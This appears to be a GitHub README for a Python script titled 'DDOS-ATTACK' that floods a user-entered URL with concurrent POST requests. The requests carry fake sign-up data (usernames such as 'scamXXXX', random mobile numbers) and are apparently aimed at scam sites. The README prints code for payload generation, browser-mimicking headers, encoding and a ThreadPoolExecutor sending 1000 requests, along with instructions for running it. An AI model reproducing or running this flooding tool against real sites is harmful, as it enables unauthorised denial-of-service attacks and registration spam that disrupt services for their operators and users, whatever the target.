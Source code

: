 # DDOS-ATTACK



This Python script simulates sending multiple POST requests to a target URL with randomly generated payload data. It uses multithreading to send a large number of requests simultaneously.

## Features

- **Random Data Generation**: Generates random usernames and mobile numbers for each request.
- **Multithreading**: Handles concurrent requests using Python's `ThreadPoolExecutor` for efficiency.
- **Data Encoding**: Payload data is both URL-encoded and Base64-encoded before being sent.
- **Custom HTTP Headers**: Each request is sent with specific headers mimicking a real browser request.
- **Progress Tracking**: Displays the number of successful requests in real-time.

## Prerequisites

You need to have Python 3.x installed along with the `requests` library. Install the dependencies using:

```bash
pip install requests
```

## How It Works
Random Username and Mobile Generation: The script generates random usernames (e.g., scamXXXX) and mobile numbers (starting with 98) using the random module.

```bash
def generate_random_username():
    return f"scam{random.randint(1000, 9999)}"

def generate_random_mobile():
    return f"98{random.randint(10000000, 99999999)}"
```
## Payload Creation: 
The generated data is packed into a dictionary and converted to a JSON string. It is then URL-encoded and Base64-encoded for secure transmission.

```bash
def create_payload():
    payload = {
        "username": generate_random_username(),
        "mobile": generate_random_mobile(),
        "password": "scam",
        "inviter": "114563",
        "machine": "17204265160908750676"
    }
    return payload
```
## Request Sending: 
Each request is sent with custom headers and the encoded payload. If the request is successful (HTTP 200), the counter of successful requests is incremented.

```bash
def send_request(session, url):
    global successful_requests
    headers = {
        'accept': '*/*',
        'content-type': 'application/x-www-form-urlencoded;charset=UTF-8',
        'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64)',
    }
    payload = create_payload()
    encoded_data = encode_payload(payload)
    data = {'data': encoded_data}
    
    response = session.post(url, headers=headers, data=data)
    if response.status_code == 200:
        with threading.Lock():
            successful_requests += 1
            print(f"Request sent successfully {successful_requests}")
    else:
        print(f"Request failed. Response: {response.status_code}")
```
## Multithreading: 
The script uses ThreadPoolExecutor to send multiple requests concurrently.


```bash

def threads(num_threads, url):
    with ThreadPoolExecutor(max_workers=num_threads) as executor:
        with requests.Session() as session:
            futures = [executor.submit(send_request, session, url) for _ in range(num_threads)]
            for future in futures:
                future.result()

```
Running the Script
Clone or download the project.

## Install dependencies:

```bash

pip install requests
```
Run the script:

```bash

python app.py
```
Enter the target URL when prompted. The script will automatically send 1000 requests concurrently to the URL.

## Example
```bash

Enter the desired URL: https://example.com/api/submit
Request sent successfully 1
Request sent successfully 2
Request sent successfully 3
...
